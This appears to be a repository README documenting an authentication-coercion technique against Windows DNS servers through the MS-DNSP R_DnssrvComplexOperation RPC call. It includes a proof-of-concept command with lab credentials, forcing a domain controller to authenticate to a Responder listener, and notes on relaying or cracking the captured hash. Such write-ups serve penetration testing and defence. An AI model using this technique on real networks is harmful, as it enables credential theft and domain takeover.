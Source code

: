 # MS-DNSP - Remote call to R_DnssrvComplexOperation (opnum 2)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvComplexOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409)

 - **Function operation number**: `2`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation(
   [in]                                   handle_t                  hBindingHandle,
   [in, unique, string]                   LPCWSTR                   pwszServerName,
   [in, unique, string]                   LPCSTR                    pszZone,
   [in, unique, string]                   LPCSTR                    pszOperation,
   [in]                                   DWORD                     dwTypeIn,
   [in, switch_is(dwTypeIn)]              DNSSRV_RPC_UNION          pDataIn,
   [out]                                  PDWORD                    pdwTypeOut,
   [out, switch_is(*pdwTypeOut)]          DNSSRV_RPC_UNION*         ppDataOut
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvComplexOperation`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409